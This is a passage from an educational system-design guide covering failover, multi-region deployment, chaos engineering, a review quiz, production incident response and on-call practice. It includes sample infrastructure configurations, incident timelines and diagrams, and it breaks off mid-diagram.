6. **Failback:** moving back to the original primary after it is repaired. It is *another* failover with its own risks. The old primary must first be rebuilt as a replica (in PostgreSQL, `pg_rewind` helps). Many teams simply keep the new primary and skip failback.

7. **Test failover regularly.** Do planned switchovers (for example monthly) during working hours. If you have never failed over, you do not really have failover; you have a hope.

```mermaid
flowchart TD
    subgraph AP["Active-Passive"]
        U1["Users"] --> P1["Primary: ACTIVE<br/>serves 100%"]
        P1 -->|"replicates + heartbeat"| S1["Standby: PASSIVE<br/>serves 0% until failover"]
    end
    subgraph AA["Active-Active"]
        U2["Users"] --> LB2["Load Balancer<br/>health checks"]
        LB2 -->|"50%"| A2["Node A: ACTIVE"]
        LB2 -->|"50%"| B2["Node B: ACTIVE"]
    end
```

```mermaid
sequenceDiagram
    participant App as App Server
    participant LB as HAProxy
    participant P as Primary DB
    participant R as Replica DB
    participant E as etcd leader lock
    P->>E: Renew leader lock every 10s
    App->>LB: Write order
    LB->>P: Forward write
    P-->>App: OK
    Note over P: Primary crashes
    P-xE: Lock renewal missing
    Note over E: Lock expires after 30s TTL
    R->>E: Try to take the leader lock
    E-->>R: Granted, you are the leader
    R->>R: Promote itself to primary
    LB->>R: Health check /primary
    R-->>LB: 200 I am primary
    App->>LB: Write order
    LB->>R: Forward write to new primary
    R-->>App: OK
    Note over P: Old primary is fenced, later rebuilt as a replica
```

**💻 Example:** a floating IP with keepalived, and the key Patroni settings that control database failover.

```text
# /etc/keepalived/keepalived.conf on server A
# (server B is identical except: state BACKUP, priority 100)
vrrp_instance VI_1 {
    state MASTER            # starts as the owner of the floating IP
    interface eth0
    virtual_router_id 51
    priority 150            # higher priority wins
    advert_int 1            # announce "I'm alive" every second
    virtual_ipaddress {
        10.0.0.100/24       # the IP that clients use; moves to B if A goes silent
    }
}
```

```yaml
# patroni.yml (excerpt), one per PostgreSQL node
scope: orders-cluster
name: pg-node-1
etcd3:
  hosts: 10.0.1.10:2379,10.0.2.10:2379,10.0.3.10:2379   # 3 etcd nodes = majority vote
bootstrap:
  dcs:
    ttl: 30                            # leader lock expires 30s after last renewal
    loop_wait: 10                      # leader renews the lock every 10s
    maximum_lag_on_failover: 1048576   # never promote a replica more than 1 MB behind
    synchronous_mode: true             # optional: zero data loss, slightly slower writes
```

A planned test is one command: `patronictl -c /etc/patroni.yml switchover`, which moves the primary role to a replica in a controlled way.

**🌍 Real-world usage:**
- **Patroni** (created at Zalando) is a popular way to run highly available PostgreSQL, including on Kubernetes.
- **AWS RDS Multi-AZ**, **Google Cloud SQL HA** and **Azure SQL** provide managed automatic database failover.
- **GitHub** uses orchestrator for MySQL failover. In **October 2018**, a 43-second network interruption led it to promote databases on the US West Coast while some writes existed only on the East Coast; untangling the data took about 24 hours of degraded service. It is a classic lesson in why failover decisions must consider partitions and data consistency.
- **Route 53**, **Cloudflare Load Balancing** and **Azure Traffic Manager** offer health-checked DNS failover; keepalived/VRRP is common for on-premises floating IPs.

**⚖️ Trade-offs:**

| | Automatic failover | Manual failover |
|---|---|---|
| Speed | Seconds to a minute or two | Minutes to hours (a human must wake up and decide) |
| Main risk | False alarms, flapping back and forth, split-brain if fencing is weak | Slow; human error under stress |
| Best for | Stateless servers, LB backends, well-fenced DB clusters in one region | Cross-region database failover, rare high-impact moves |

**⚠️ Common mistakes:**
- Never testing failover, then discovering during a real outage that the standby is misconfigured or far behind.
- No fencing, leading to split-brain and two diverging copies of the data.
- Active-active nodes each running at 70% load, so one failure overloads the survivors.
- Long DNS TTLs, or apps that cache DNS and database connections forever and keep talking to the dead primary.
- Health checks so sensitive that a short hiccup triggers a needless failover.

**🎯 Remember:** Failover is only as good as its detection, its fencing, and its last test. Remove single points of failure, and practice switching before you need to.

**🔗 See also:** [#52 Network Partitions](#52-network-partitions), [#104 Backups](#104-backups), [#105 Disaster Recovery](#105-disaster-recovery), [#107 Multi-Region Deployment](#107-multi-region-deployment), [#108 Chaos Engineering](#108-chaos-engineering)

---

### 107. Multi-Region Deployment

> **In one line:** Multi-region means running your app in several far-apart parts of the world at the same time, so it is fast for everyone and survives a whole area going dark.

**🏠 Real-life analogy:** A pizza chain with one huge kitchen in New York: customers in London wait forever, and if that kitchen floods, nobody gets pizza. So the chain opens kitchens in New York, London and Singapore. Now pizza is fast everywhere, and one flood is not the end. But there is a new headache: everyone's loyalty points must stay correct across three kitchens that are far apart.

**❓ What problem does it solve?**
- **Latency (the waiting time) for far-away users:** a request from Sydney to a server in Virginia travels roughly 16,000 km of cable each way. Even at the speed of light in fiber, a round trip takes well over 100 ms, before your server does any work. Pages that need many round trips feel slow.
- **Regional disasters:** a whole cloud region can have problems. With one region, you are down until it recovers.
- **Data residency laws:** some laws restrict where personal data may be stored or sent. For example, GDPR restricts moving EU residents' personal data outside the EU without safeguards, and some countries require certain data to stay in-country.

**⚙️ How it works:**

1. **Regions vs availability zones:**
   - A **region** is a geographic area, like AWS `us-east-1` (Northern Virginia) or `eu-west-1` (Ireland). Regions are far apart and mostly independent.
   - An **availability zone (AZ)** is one or more separate data centers *inside* a region, with independent power, cooling and networking. AWS keeps the AZs in a region within about 100 km of each other, connected by fast links with single-digit-millisecond latency.
   - **Multi-AZ** protects you against one data center failing. It is cheap and easy, and synchronous replication is practical. **This should be your default.**
   - **Multi-region** protects you against a whole region failing. It is expensive and hard, because the distance forces asynchronous replication.

2. **Active-passive vs active-active multi-region:**

| | Active-passive | Active-active |
|---|---|---|
| Traffic | One region serves; the other is on standby | All regions serve users nearby |
| Writes | One writer region; easy consistency | Writes in many regions; conflicts possible |
| Failover | Promote the standby region (minutes) | Route users away from the bad region (seconds to minutes) |
| Latency benefit | None for far-away users | Yes, users hit the nearest region |
| Cost & complexity | Medium | High |

3. **Data replication challenges:**
   - **Cross-region latency:** synchronous replication to another continent adds tens to hundreds of milliseconds to *every* write, so most systems replicate asynchronously.
   - **Replication lag:** with async replication, the other region is slightly behind. Failover may lose the last seconds of writes (RPO above zero), and users may read stale data.
   - **Conflicts:** in active-active, two regions may change the same record at the same time. Strategies: last-writer-wins (simple, may silently drop an update), CRDTs (data types that merge automatically), or giving each user a **home region** where all their writes go.
   - **CAP** (#50): when the link between regions breaks, you must choose between staying consistent (rejecting some writes) or staying available (accepting writes and reconciling later).
   - Helpful databases: Aurora Global Database (one writer region, fast cross-region replicas), DynamoDB global tables (multi-writer, last-writer-wins), Google Spanner and CockroachDB (globally consistent, at the cost of write latency).

4. **Global traffic routing:**
   - **GeoDNS / latency-based DNS:** the DNS server answers with the IP of the region that is closest to the user or has the lowest measured latency (Route 53 latency and geolocation routing). Health checks remove a failed region.
   - **Anycast:** the *same* IP address is announced from many locations; internet routing (BGP) delivers each user to the nearest one. Cloudflare and Google use this heavily.
   - **Global load balancers:** Google Cloud's global load balancer, AWS Global Accelerator, Azure Front Door and Cloudflare Load Balancing give you one entry point that steers traffic to healthy regions.

5. **Hidden single-region dependencies:** your app may run in two regions, but does your login provider, DNS management, CI/CD, secret store or container registry? On **December 7, 2021**, a major AWS outage in `us-east-1` disrupted many apps and websites, including some of Amazon's own operations, and some customers whose workloads ran *elsewhere* were affected because they depended on control-plane APIs (the APIs for creating and changing resources) hosted in `us-east-1`. Lesson: your failover plan should depend only on things that are already running (the "data plane") and not on creating or changing resources during the emergency (the "control plane"). AWS calls this static stability.

6. **Cell-based architecture (briefly):** instead of one giant deployment per region, split the system into many small, identical, independent copies called **cells**, each serving a slice of customers. A bad deploy or failure hits only one cell, which limits the blast radius. AWS uses this pattern internally, and Slack has written about moving to a cell-based design.

7. **Cost and complexity: don't start here.** Multi-region roughly doubles infrastructure, adds cross-region data transfer fees, and makes every deploy, migration and test harder. Most products should start with **one region, multiple AZs, good backups copied to another region, and a tested restore**. Go multi-region when the business truly needs it.

```mermaid
flowchart TD
    Users["Users worldwide"] --> Router["Global routing<br/>GeoDNS / anycast / global LB"]
    subgraph USEast["Region us-east-1 (N. Virginia)"]
        AZ1["AZ 1<br/>own power + network"]
        AZ2["AZ 2"]
        AZ3["AZ 3"]
    end
    subgraph EUWest["Region eu-west-1 (Ireland)"]
        AZ4["AZ 1"]
        AZ5["AZ 2"]
        AZ6["AZ 3"]
    end
    Router -->|"US users"| AZ1
    Router -->|"EU users"| AZ4
    AZ1 -->|"single-digit ms<br/>sync replication OK"| AZ2
    AZ2 --> AZ3
    AZ4 --> AZ5
    AZ5 --> AZ6
    AZ1 -.->|"across the ocean<br/>async replication"| AZ4
```

```mermaid
flowchart LR
    UserUS["User in New York"] --> DNS["Latency-based DNS<br/>with health checks"]
    UserEU["User in Paris"] --> DNS
    DNS -->|"nearest healthy"| AppUS["App in us-east-1"]
    DNS -->|"nearest healthy"| AppEU["App in eu-west-1"]
    AppUS --> DBUS[("DB us-east-1")]
    AppEU --> DBEU[("DB eu-west-1")]
    DBUS -.->|"async replication both ways<br/>conflicts possible"| DBEU
```

**💻 Example:** Terraform for Route 53 latency-based routing with a health check. Users get the closest region; if a region's health check fails, DNS stops sending traffic there.

```hcl
resource "aws_route53_health_check" "us" {
  fqdn              = "us.api.example.com"
  type              = "HTTPS"
  port              = 443
  resource_path     = "/healthz"
  failure_threshold = 3        # 3 failed checks in a row = unhealthy
  request_interval  = 10       # check every 10 seconds
}

resource "aws_route53_record" "api_us" {
  zone_id         = aws_route53_zone.main.zone_id
  name            = "api.example.com"
  type            = "CNAME"
  ttl             = 60         # short TTL so clients move quickly on failure
  set_identifier  = "us-east-1"
  records         = ["us.api.example.com"]
  health_check_id = aws_route53_health_check.us.id

  latency_routing_policy {
    region = "us-east-1"
  }
}
# ...plus an identical health check and "api_eu" record with region = "eu-west-1"
```

**🌍 Real-world usage:**
- **Netflix** runs active-active across multiple AWS regions and practices evacuating a whole region (its "Chaos Kong" exercises).
- **Google Spanner** and **CockroachDB** offer multi-region databases with strong consistency; **DynamoDB global tables** and **Aurora Global Database** are popular on AWS.
- **Cloudflare** serves traffic from data centers around the world using anycast.
- Many SaaS companies offer **EU data residency** by running separate EU deployments for European customers.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Single region, multi-AZ | Default for most products | A full-region outage takes you down |
| Multi-region active-passive | Need regional DR with simpler data | Idle standby cost; failover takes minutes; replication lag = some data loss |
| Multi-region active-active | Global users, very high availability needs | Highest cost; conflicts, consistency and testing are hard |
| Separate deployment per jurisdiction | Data residency requirements | Duplicate operations; features may differ per region |

**⚠️ Common mistakes:**
- Going multi-region before mastering multi-AZ, automation, backups and monitoring.
- Hidden dependencies in one region: auth, DNS changes, secrets, CI/CD, registries, monitoring.
- No spare capacity: when one region fails, the survivors must absorb its traffic.
- Ignoring replication lag (users don't see their own update) and write conflicts.
- Never practicing a real region evacuation.

**🎯 Remember:** Multi-AZ is the default; multi-region is a business decision. When a region dies, your failover must rely only on things that are already running elsewhere.

**🔗 See also:** [#50 CAP Theorem](#50-cap-theorem), [#105 Disaster Recovery](#105-disaster-recovery), [#106 Failover](#106-failover), [#108 Chaos Engineering](#108-chaos-engineering)

---

### 108. Chaos Engineering

> **In one line:** Chaos engineering means breaking small parts of your own system on purpose, in a careful and controlled way, to find weaknesses before a real outage finds them.

**🏠 Real-life analogy:** Schools run fire drills. They don't wait for a real fire to discover that an exit is blocked or that one classroom can't hear the alarm. The drill is planned, short and safe, and every problem it uncovers gets fixed. Chaos engineering is a fire drill for software.

**❓ What problem does it solve?**
- Big systems fail in ways nobody predicted: a missing timeout, a retry storm, a failover that was never tested, an alert that never fires, an outdated runbook.
- Without testing, you discover these at 3 a.m. during a real outage, under maximum stress.
- Chaos experiments surface them on a Tuesday afternoon, with the whole team watching and a stop button ready.

**⚙️ How it works:**

1. **Where it came from:** when Netflix moved to AWS, it accepted that servers would disappear at any time. Around 2011 it introduced **Chaos Monkey**, a tool that randomly terminates production instances during working hours, so every team builds services that survive losing a server. Netflix later described a whole **Simian Army**: Latency Monkey (adds delays), Conformity Monkey (finds instances that break best practices), Chaos Gorilla (simulates losing an entire availability zone), Chaos Kong (simulates losing a whole region), and others.

2. **The principles** (from the Principles of Chaos Engineering):
   - **Define steady state:** a measurable sign of "normal", ideally a business metric such as "checkouts per minute" or "99.9% of requests succeed", not CPU usage.
   - **Hypothesize:** "If we kill one checkout pod, steady state will not change."
   - **Inject real-world events:** server crashes, network latency or packet loss, a dependency going down, a full disk, a whole AZ disappearing.
   - **Run in production, carefully:** staging never fully matches production traffic and configuration. Start in staging, then graduate to production.
   - **Minimize the blast radius:** start with one pod or 1% of traffic, set automatic stop conditions, and keep a big red "abort" button.
   - **Automate:** run experiments continuously, because systems change every day.

3. **Common fault types:** kill a process, pod or VM; add network latency or drop packets; split the network (partition); stress CPU or memory; fill a disk; make a dependency return errors; take away an entire AZ.

4. **Tools:**
   - **Chaos Mesh** (CNCF project): Kubernetes-native; experiments are YAML resources (PodChaos, NetworkChaos, StressChaos...).
   - **LitmusChaos** (CNCF project): Kubernetes-focused, with a hub of ready-made experiments.
   - **Gremlin:** commercial chaos-as-a-service with a UI, safety controls and many attack types.
   - **AWS Fault Injection Service (FIS):** managed experiments on AWS resources (stop instances, inject API errors, simulate AZ problems) with stop conditions tied to CloudWatch alarms.
   - Also: Netflix's Chaos Monkey (open source), and Shopify's Toxiproxy for simulating bad network conditions in tests.

5. **Game days:** a scheduled session where the team picks a scenario ("the primary database dies"), injects it, and watches what happens. It tests the *people* too: do alerts page the right person, is the runbook correct, does the team communicate well? Amazon popularized the term "GameDay".

6. **Start small:** begin in staging with one simple experiment (kill one pod). Fix what breaks. Then do the same in production during business hours with people watching. Only then automate and widen the scope. Fix known weaknesses *before* testing them; chaos engineering is for finding *unknown* ones.

```mermaid
flowchart LR
    Steady["1. Define steady state<br/>e.g. 99.9% checkout success"] --> Hypo["2. Hypothesis<br/>'Killing 1 pod will not<br/>change success rate'"]
    Hypo --> Inject["3. Inject fault<br/>small blast radius"]
    Inject --> Observe["4. Observe metrics<br/>abort if SLO is breached"]
    Observe --> Decide{"Steady state held?"}
    Decide -->|"Yes"| Expand["Confidence gained<br/>widen scope, automate"]
    Decide -->|"No"| Fix["Weakness found<br/>fix it, then re-run"]
    Expand --> Steady
    Fix --> Steady
```

**💻 Example:** a Chaos Mesh experiment that kills one random `checkout` pod. The hypothesis: Kubernetes replaces the pod, the other replicas absorb traffic, and the checkout success rate stays above 99.9%.

```yaml
# kill-one-checkout-pod.yaml: Chaos Mesh experiment
apiVersion: chaos-mesh.org/v1alpha1
kind: PodChaos
metadata:
  name: checkout-pod-kill
  namespace: shop
spec:
  action: pod-kill        # other actions: pod-failure, container-kill
  mode: one               # pick ONE random matching pod (small blast radius)
  selector:
    namespaces:
      - shop
    labelSelectors:
      app: checkout       # only pods labeled app=checkout
  gracePeriod: 0          # kill immediately, like a real crash
```

```bash
kubectl apply -f kill-one-checkout-pod.yaml          # start the experiment
kubectl get pods -n shop -l app=checkout -w          # watch a replacement pod appear
# ...meanwhile, watch the checkout success-rate dashboard and alerts...
kubectl delete -f kill-one-checkout-pod.yaml         # clean up
```

If the success rate dipped, you learned something valuable: maybe there are too few replicas, clients have no retries, or the readiness probe is wrong. Fix it and run the experiment again.

**🌍 Real-world usage:**
- **Netflix:** Chaos Monkey, region evacuation exercises with Chaos Kong, and later automated failure-injection platforms.
- **Amazon:** GameDays to rehearse large failures; AWS now sells FIS to customers.
- **Google:** DiRT disaster-recovery exercises across the company.
- Many companies use **Gremlin**, **Chaos Mesh** or **LitmusChaos** to run regular experiments on Kubernetes and cloud infrastructure.

**⚖️ Trade-offs:**

| Where to experiment | Pros | Cons |
|---|---|---|
| Staging | Safe; good for learning and first experiments | Different traffic and config; misses real-world weaknesses |
| Production (small blast radius) | Finds real weaknesses with real traffic | Small risk of real user impact; needs strong monitoring and abort conditions |
| Game day (people + systems) | Tests alerts, runbooks and teamwork too | Takes planning and many people's time |

**⚠️ Common mistakes:**
- Starting with a huge experiment (like turning off a region) before any small ones.
- No hypothesis and no steady-state metric: that is just breaking things, not engineering.
- Not telling on-call and stakeholders, so the experiment is mistaken for a real incident.
- Running experiments without monitoring or automatic stop conditions.
- Finding weaknesses but never fixing them.

**🎯 Remember:** Chaos engineering is not about creating chaos; it is about removing surprises. Define normal, break one small thing, watch, fix, repeat.

**🔗 See also:** [#105 Disaster Recovery](#105-disaster-recovery), [#106 Failover](#106-failover), [#107 Multi-Region Deployment](#107-multi-region-deployment), [#109 Production Incidents](#109-production-incidents), [#110 On-Call](#110-on-call)

---

### 🧠 Part 15 Quiz

**Q1. Your database already has two replicas in other availability zones. Do you still need backups? Why?**
<details><summary>Show answer</summary>

Yes. Replicas copy *everything* within milliseconds, including accidental deletes, bad migrations and ransomware damage. Replication protects you from hardware failure; backups (ideally with point-in-time recovery and an immutable offsite copy) protect you from mistakes, bugs and attackers.

</details>

**Q2. What is the difference between RPO and RTO? Give an example.**
<details><summary>Show answer</summary>

RPO (Recovery Point Objective) is how much data you can afford to lose, measured backward from the disaster; RTO (Recovery Time Objective) is how long you can afford to be down, measured forward. Example: with nightly backups and a 2-hour restore, you can lose up to 24 hours of data (RPO 24h) and be down for about 2 hours (RTO 2h).

</details>

**Q3. Your nightly backup job has reported "success" for a year, but nobody has ever restored from it. What would you do?**
<details><summary>Show answer</summary>

Restore the latest backup into a scratch database right now, check the data (row counts, newest timestamps), and measure how long it took. Then automate that test on a schedule, add a dead man's switch alert in case the backup job stops running, and make sure an offsite, immutable copy exists. GitLab's 2017 incident showed how backups can silently fail.

</details>

**Q4. Active-passive vs active-active failover: what is the main difference, and what is split-brain?**
<details><summary>Show answer</summary>

In active-passive, one node serves all traffic and a standby takes over on failure; in active-active, all nodes serve traffic and the survivors absorb a failed node's share (so each needs spare capacity). Split-brain happens when a "dead" primary is actually alive (for example, cut off by a network partition) and two nodes both accept writes, so data diverges; fencing and quorum prevent it.

</details>

**Q5. Your team wants to "start chaos engineering" tomorrow by turning off a whole production region. What would you suggest instead?**
<details><summary>Show answer</summary>

Start small: define a steady-state metric, write a hypothesis, and run a tiny experiment (like killing one pod) in staging, then in production during business hours, with monitoring and an abort button. Fix what you find and widen the blast radius gradually. Region-level exercises come much later, once smaller experiments and failover drills pass reliably.

</details>


## Part 16 — Operations & Incident Response

Even with a great design, things will break in production. What separates great teams from the rest is how they respond: how fast they notice, how calmly they fix things, and how honestly they learn afterwards. This part covers the human side of reliability: handling production incidents, being on-call, and writing blameless postmortems so the same problem does not hit you twice.

```mermaid
flowchart LR
    Alert["Alert fires"] --> OnCall["110. On-Call<br/>a human responds"]
    OnCall --> Incident["109. Production Incidents<br/>organize and mitigate"]
    Incident --> Post["111. Postmortems<br/>learn and improve"]
    Post -.->|"fixes prevent<br/>future incidents"| Alert
```

---

### 109. Production Incidents

> **In one line:** An incident is any unplanned problem that hurts (or is about to hurt) your users or business, and incident response is the organized way a team fixes it fast.

**🏠 Real-life analogy:** When firefighters arrive at a burning building, they don't hold a meeting about who is in charge. One fire chief directs; everyone else has a clear job (hoses, ladders, first aid). The first priority is getting people out and stopping the fire. *Why* it started is investigated later, after the fire is out.

**❓ What problem does it solve?** Without a process, an outage turns into chaos:
- Fifteen engineers jump into one chat, all trying different fixes at the same time.
- Two people roll back and roll forward simultaneously and make it worse.
- Nobody updates customers, so the support team learns about the outage from social media.
- People spend an hour hunting the root cause while users still can't pay.

**⚙️ How it works:**

1. **What is an incident?** An outage, a serious slowdown, data loss or corruption, a security breach, or a critical dependency failing. Not every bug is an incident; the test is **user or business impact plus urgency**.

2. **Severity levels** tell everyone how big the problem is and how to respond. Every company defines its own; here is a typical example:

| Severity | Meaning | Examples | Response expectation |
|---|---|---|---|
| **SEV1** (critical) | Major outage, data loss or security breach | Checkout down for everyone; customer data exposed | Page immediately, 24/7; Incident Commander assigned; status page within minutes; leadership updates every ~30 min |
| **SEV2** (major) | Significant degradation for many users | Payments failing in one region; 10% of API calls erroring | Page on-call 24/7; Incident Commander; regular updates (every 30-60 min) |
| **SEV3** (minor) | Limited impact, workaround exists | Search slow for some users; an internal tool is down | Handle during business hours; ticket; no night pages |
| **SEV4** (low) | Cosmetic, or no immediate impact | A typo on a page; a noisy but harmless alert | Normal backlog |

   Rule of thumb: **if unsure, pick the higher severity.** You can always downgrade later; under-reacting is far more costly.

3. **The incident lifecycle:**
   - **Detect:** an alert fires (ideally before customers notice) or customers report it.
   - **Triage:** confirm it's real, judge the impact, set a severity, and declare an incident.
   - **Mitigate:** stop the bleeding; make users OK again, even with a temporary fix.
   - **Resolve:** the system is back to normal and stable, and the alert has cleared.
   - **Postmortem:** a blameless written review (#111).
   - **Follow-up:** action items get done, so it does not happen again.

4. **Roles** (borrowed from the Incident Command System used by firefighters):
   - **Incident Commander (IC):** coordinates, makes decisions, assigns tasks. The IC does *not* debug hands-on, because someone must keep the big picture.
   - **Communications Lead:** updates the status page, executives, support and customers on a regular schedule.
   - **Operations Lead / Subject-Matter Experts (SMEs):** the hands on keyboards; they investigate and carry out fixes.
   - **Scribe:** writes down a timeline of what happened, what was tried, and every decision.
   - In a small incident, one person may wear several hats. In a big one, these are different people.

5. **Mitigate first, investigate later.** Your first question is "what changed?", and your first moves are the fastest safe ones: **roll back** the last deploy, **fail over** to a healthy replica or region, **turn off a feature flag**, scale up, or block abusive traffic. You don't need to understand the root cause to roll back.

6. **Communication:**
   - Open a **dedicated incident channel** in Slack (for example `#inc-20261027-checkout-errors`) so the discussion is focused and becomes a natural timeline. Keep stakeholders in a separate channel so responders aren't flooded with questions.
   - Update the **status page** (a public page showing system health, such as Atlassian Statuspage) early, and give updates on a fixed rhythm, even if the update is "still investigating, next update in 30 minutes".

7. **Most incidents come from changes.** The Google SRE book notes that roughly 70% of outages are caused by changes to a live system: deploys, config changes, feature-flag flips, infrastructure changes. That's why gradual rollouts (canaries), easy rollback and change freezes during busy periods matter so much.

8. **Case study: AWS S3, February 28, 2017 (us-east-1).** While debugging a billing-system issue, an authorized engineer ran a command from an established playbook meant to remove a *small* number of servers. One input was entered incorrectly, and a much *larger* set of servers was removed, including servers supporting critical S3 subsystems. Those subsystems had to be fully restarted, which took several hours, and many websites and apps that depended on S3 broke. Even AWS's own Service Health Dashboard initially couldn't show the problem, because it depended on S3. AWS changed the tool to remove capacity more slowly and to refuse removals that would push a subsystem below its minimum safe capacity. Lessons: changes cause incidents, tools need guardrails, and your status page must not depend on the thing it reports on.

```mermaid
flowchart LR
    Detect["1. Detect<br/>alert or customer report"] --> Triage["2. Triage<br/>impact? severity? declare"]
    Triage --> Mitigate["3. Mitigate<br/>stop the bleeding"]
    Mitigate --> Resolve["4. Resolve<br/>normal and stable"]
    Resolve --> Postmortem["5. Postmortem<br/>blameless review"]
    Postmortem --> FollowUp["6. Follow-up<br/>action items done"]
    FollowUp -.->|"fewer and shorter<br/>future incidents"| Detect
```

```mermaid
flowchart TD
    IC["Incident Commander<br/>coordinates and decides"]
    IC --> Comms["Communications Lead<br/>status page, execs, support"]
    IC --> Ops["Operations Lead + SMEs<br/>investigate and fix"]
    IC --> Scribe["Scribe<br/>records the timeline"]
    Comms --> Customers["Customers and<br/>stakeholders"]
    Ops --> Prod["Production systems"]
```

**💻 Example:** a timeline of a fictional SEV2 incident at a fictional online shop, followed by the status update the Communications Lead posted.

| Time (UTC) | What happened |
|---|---|
| 14:02 | Deploy of `checkout-service` v2.31.0 starts; the canary step is skipped to "save time" |
| 14:04 | Checkout errors begin rising |
| 14:06 | Alert `CheckoutHighErrorRate` fires (12% errors, threshold 5%); on-call engineer Sam is paged |
| 14:09 | Sam acknowledges, sees the spike started right after the deploy, declares SEV2, opens `#inc-20261027-checkout-errors` |
| 14:10 | Priya joins as Incident Commander; Sam is Operations Lead; Jo is Communications Lead |
| 14:12 | Decision: **roll back first**, investigate later |
| 14:14 | Jo posts "Investigating" on the status page |
| 14:19 | Rollback complete; error rate drops back to 0.3% |
| 14:35 | Stable for 15 minutes; incident resolved; status page set to "Resolved" |
| Next day | Postmortem written and reviewed (see #111) |

```text
[14:14 UTC] INVESTIGATING | SEV2 | Checkout errors
Impact:      About 1 in 8 checkout attempts are failing, in all regions.
What we know: Errors started at 14:04 UTC, shortly after a deployment.
What we're doing: Rolling back that deployment.
Next update: 14:45 UTC, or sooner if anything changes.
IC: Priya | Comms: Jo | Channel: #inc-20261027-checkout-errors
```

**🌍 Real-world usage:**
- **Google**'s SRE book has a chapter on managing incidents built on clear roles and a single commander.
- **PagerDuty** publishes its incident response process openly, and **Atlassian** publishes an incident management handbook; both are good free reading.
- Tools such as **incident.io**, **FireHydrant** and **Rootly** create incident channels, assign roles and build timelines automatically from Slack; **Atlassian Statuspage** and similar products host status pages.
- Public post-incident reports from **AWS**, **Cloudflare** and **GitLab** show these practices in action.

**⚖️ Trade-offs:**

| Mitigation | When to use | Downside |
|---|---|---|
| Roll back the deploy | The problem started right after a change | Rolls back good changes too; tricky if a DB migration already ran |
| Turn off a feature flag | The new feature is behind a flag | Only works if the code was flagged |
| Fail over (replica/region) | Infrastructure is broken, code is fine | Risk of data loss or split-brain if done carelessly (#106) |
| Scale up / shed load | Traffic spike or overload | Costs money; may hide the real cause |
| Fix forward (ship a new fix) | Rollback is impossible and the fix is tiny and obvious | Slower and riskier under stress |

**⚠️ Common mistakes:**
- Debugging the root cause for an hour while users suffer, instead of rolling back first.
- The Incident Commander also debugging, so nobody is coordinating.
- Silence: no status page update, no stakeholder updates, no "next update at" time.
- Declaring too late or picking too low a severity out of fear of "overreacting".
- Several people making changes at once without telling the IC.

**🎯 Remember:** Stop the bleeding first, understand it later. One commander, clear roles, regular updates, and always ask "what changed?"

**🔗 See also:** [#110 On-Call](#110-on-call), [#111 Postmortems](#111-postmortems), [#106 Failover](#106-failover), [#108 Chaos Engineering](#108-chaos-engineering)

---

### 110. On-Call

> **In one line:** Being on-call means that, during your shift, you are the person who gets alerted (paged) when production breaks, and you are expected to respond quickly.

**🏠 Real-life analogy:** A hospital has doctors on call. They don't operate all night, but if an emergency arrives, their phone rings and they must answer within minutes. They know which specialist to call if the case is beyond them, and they take turns, so no single doctor is on call forever.

**❓ What problem does it solve?**
- Systems break at 3 a.m. and on holidays. Without on-call, nobody notices until customers complain in the morning.
- Without a fair rotation, the same "hero" engineer fixes everything, burns out and eventually leaves, taking the knowledge with them.
- Alerts sent to a shared inbox are seen by everyone and handled by no one.

**⚙️ How it works:**

1. **What being on-call means:** during your shift (often one week) you keep your phone and laptop nearby, acknowledge pages within an agreed time (for example 5 minutes for urgent pages), triage and mitigate problems, and escalate when needed. Many companies follow "you build it, you run it" (a phrase from Amazon's CTO Werner Vogels): the team that writes a service is on call for it.

2. **Rotation types:**
   - **Weekly primary/secondary:** the primary gets paged first; the secondary is the backup if the primary doesn't respond or needs help. The roles rotate every week, with handoff on a weekday.
   - **Follow-the-sun:** teams in different time zones (for example Asia-Pacific, Europe and the Americas) each cover their own daytime hours, so nobody is paged at night. This needs teams spread around the globe.
   - **Business-hours only:** for lower-tier services where problems can wait until morning.

3. **Escalation policies** decide who gets paged next if nobody responds: primary, then secondary after 5 minutes, then the team lead or manager. Escalating *on purpose* is also normal: "This is beyond me, I need help" is good judgment, not failure.

4. **Tools:** **PagerDuty**, **Opsgenie** (Atlassian) and **Grafana OnCall** (part of Grafana's incident response tooling) receive alerts from monitoring systems (Prometheus Alertmanager, Datadog, CloudWatch), look up who is on call, and notify them by app push, SMS or phone call, following schedules, overrides and escalation rules.

5. **Runbooks:** a short, step-by-step guide for each alert: what it means, how bad it is, how to check, how to mitigate, and who to escalate to. Every page should link to its runbook, so a sleepy engineer doesn't have to remember everything.

6. **Handoffs:** at the end of a shift, the outgoing person writes a short summary: open issues, incidents this week, noisy alerts, and risky changes coming up. The next person starts with context instead of from zero.

7. **Healthy on-call practices:**
   - **Actionable alerts only:** every page must be urgent *and* need a human. Everything else becomes a ticket or a message. Alert on user-facing symptoms (errors, latency, SLO burn), not on causes like "CPU at 80%".
   - **Limit the load:** the Google SRE book suggests at most **2 incidents per 12-hour shift on average**, because handling an incident plus its follow-up (root-cause analysis, fixes, postmortem) takes hours. It also suggests SREs spend no more than about 25% of their time on-call, and that a single-site rotation needs at least about 8 engineers.
   - **Compensation:** extra pay or time off after shifts or bad nights; no early meetings after a night page.
   - **Review pages weekly:** count them, and fix or delete the noisiest alerts.
   - **Train newcomers:** let new people "shadow" an experienced on-caller before taking shifts alone, and check they have all the access they need *before* the shift starts.

8. **"I just got paged — what do I do?" checklist:**
   1. **Acknowledge** the page (this stops it escalating to the next person).
   2. Take a breath. Open the alert, its **runbook** and the **dashboard**.
   3. **Assess impact:** are users affected? How many? Pick a **severity** (#109).
   4. For SEV1/SEV2: **declare an incident**, open an incident channel, and make sure someone is Incident Commander.
   5. Ask **"what changed?"**: recent deploys, config changes, feature flags, traffic, dependencies.
   6. **Mitigate:** roll back, fail over, turn off a flag, or scale up.
   7. **Communicate:** post short updates in the channel at a regular rhythm.
   8. **Escalate early** if you're stuck for 15 minutes or out of your depth.
   9. **Take notes with timestamps** as you go; future you (and the postmortem) will thank you.
   10. **Afterwards:** resolve the alert, write the handoff note, open a postmortem or ticket, and fix the alert or runbook if it was wrong or noisy.

```mermaid
flowchart LR
    subgraph Weekly["Weekly primary / secondary"]
        W1["Week 1<br/>Primary: Ana<br/>Secondary: Ben"] --> W2["Week 2<br/>Primary: Ben<br/>Secondary: Chen"]
        W2 --> W3["Week 3<br/>Primary: Chen<br/>Secondary: Dev"]
    end
    subgraph FTS["Follow-the-sun (times in UTC)"]
        APAC["00:00 to 08:00<br/>Sydney team"] --> EU["08:00 to 16:00<br/>Dublin team"]
        EU --> AMER["16:00 to 24:00<br/>San Francisco team"]
        AMER --> APAC
    end
```

```mermaid
flowchart TD
    Alert["Alert fires<br/>checkout errors over 5%"] --> Primary["Page primary on-call"]
